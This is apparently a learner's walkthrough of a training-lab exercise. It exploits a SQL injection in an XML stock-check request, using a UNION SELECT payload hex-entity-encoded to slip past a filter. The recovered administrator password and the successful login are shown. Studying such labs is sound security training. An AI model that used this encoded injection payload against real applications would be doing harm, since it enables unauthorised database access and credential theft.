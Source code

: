 *This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.*

Upon loading the page, I clicked on the first product's details, clicked on *Check stock* and observed the request in HTTP History: 
![[Screenshot 2024-05-03 at 12.40.28 PM.png]]

From the request sent, we see that the `productID` and `storeid` is encoded in XML. I can obfuscate my attack by encoding the the following injected query: 
```Burp 
UNION SELECT password FROM users WHERE username-'administrator'
```
 to : 
```Burp 
&#x31;&#x20;&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;&#x20;&#x77;&#x68;&#x65;&#x72;&#x65;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x3d;&#x27;&#x61;&#x64;&#x6d;&#x69;&#x6e;&#x69;&#x73;&#x74;&#x72;&#x61;&#x74;&#x6f;&#x72;&#x27;
```
Using the following encoding: 
![[Screenshot 2024-05-03 at 1.08.35 PM.png]]
Received the following response: 
```Burp 
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 30

983 units
wtwk4h33msbs83et8u1z
```

Using the password above, I logged in as administrator!
![[Screenshot 2024-05-03 at 1.09.59 PM.png]]